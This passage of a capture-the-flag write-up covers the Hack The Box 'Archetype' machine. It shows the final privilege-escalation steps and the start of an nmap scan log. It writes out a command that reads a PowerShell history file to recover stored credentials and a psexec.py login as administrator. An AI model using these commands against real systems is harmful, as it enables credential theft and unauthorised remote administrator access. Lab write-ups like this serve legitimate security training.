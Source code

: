 15. This privilege escalation is simple: it only relies on the powershell history file, which requires no higher rights to acces. Simply run: `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` and you will see a username and a password;
16. Going back to your computer, we now need to log into the `administrator` user. We can do this using another one of Impacket's scripts: `psexec.py`: `python3 impacket/examples/psexec.py administrator@archetype`. Enter the password found in the previous step when prompted;
17. Now you are logged into the administrator, you can capture the root flat: `more \users\administrator\desktop\root.txt`, and you are finished!

# The Long (Verbatim) Version

We enumerate the ports:
```
$ bash common/nmap.sh archetype
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 22:16 NZDT
Nmap scan report for archetype (10.10.10.27)
Host is up (0.24s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-03-22T09:16:33
|_Not valid after:  2051-03-22T09:16:33
|_ssl-date: 2021-03-22T09:38:16+00:00; +21m07s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h45m06s, deviation: 3h07m50s, median: 21m05s
| ms-sql-info:
|   10.10.10.27:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-22T02:38:03-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-22T09:38:04
```